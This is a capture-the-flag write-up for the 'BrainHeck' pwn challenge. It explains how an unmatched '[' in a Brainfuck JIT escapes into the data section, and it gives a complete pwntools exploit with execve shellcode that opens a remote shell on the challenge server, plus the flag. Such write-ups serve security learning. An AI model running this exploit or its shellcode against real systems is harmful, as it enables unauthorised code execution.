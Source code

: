 https://ctftime.org/event/2234/

# BrainHeck ~ PWN

Ok, jumps are quite useful sometimes, you can have them I guess

nc 129.151.142.36 36391

https://dl.1753ctf.com/brain-heck?s=HIXZfF4i

## Solution

This task is based on the task `BrainFrick` from the same CTF.

The main differences between this task and `BrainFrick` are as follows:

- We have access to the `[` and `]` symbols
- `+` and `-` are now constrained to the data section
    - `inc r14; and r14, $data-size`
    - This prevents us from replacing the bytes of compiled_end
        - We'll need to jump over this instead
- The pivot code writes over the value in `rsp`
    - Note you can probably restore the stack for use with a more conventional shellcode but missed this

In order to exploit this program we will:

- Use an unmatched `[` to jump into the data section
    - This lets us escape the code section and execute code in the data section
- Create an instance of "/bin/sh" in the data section for us to use
- Use the data section base pointer in `r15` in order to have a pointer to "/bin/sh" for `execve`

```
from pwn import *

REMOTE_IP = "129.151.142.36"
REMOTE_PORT = 36391

p = remote(REMOTE_IP, REMOTE_PORT)

p.readuntil(b"Enter your code:\n")

# first write "/bin/sh" to the start of the data section
shellcode = b"/bin/sh\x00"

# next write the opcode sequence for "]" copied directly from instructions.cpp
shellcode += b"\x43\x80\x3c\x3e\x00\x74\x32\x48\x8d\x3d\x00\x00\x00\x00\x48\x29\xe7\x48\xc7\xc1\x01\x00\x00\x00\x4c\x89\xe8\x4c\x89\xe3\x48\xff\xcf\x38\x07\x75\x03\x48\xff\xc9\x38\x1f\x75\x03\x48\xff\xc1\x48\x85\xc9\x75\xea\x4c\x01\xd7\xff\xe7"

# r15 contains a pointer to the start of the data section which contains "/bin/sh"
# mov rdi, r15
# xor esi, esi
# xor edx, edx
# mov al, 0x3b
# syscall       ; execve("/bin/sh", 0, 0)
shellcode += b"\x4c\x89\xff\x31\xf6\x31\xd2\xb0\x3b\x0f\x05"

payload = b""
for b in shellcode:
    payload += b"+" * int(b)
    payload += b".>"

# increment data pointer to ensure its value is zero
payload += b">"

# this opening brace will skip over compiled_end and our "/bin/sh" to the "]" opcodes we placed in the data section
payload += b"["

p.sendline(payload)

p.clean()

p.sendline(b"/bin/cat /flag")

p.interactive()
```

## Flag
`1753c{jump_balance_not_checked_brain_is_a_heck}`
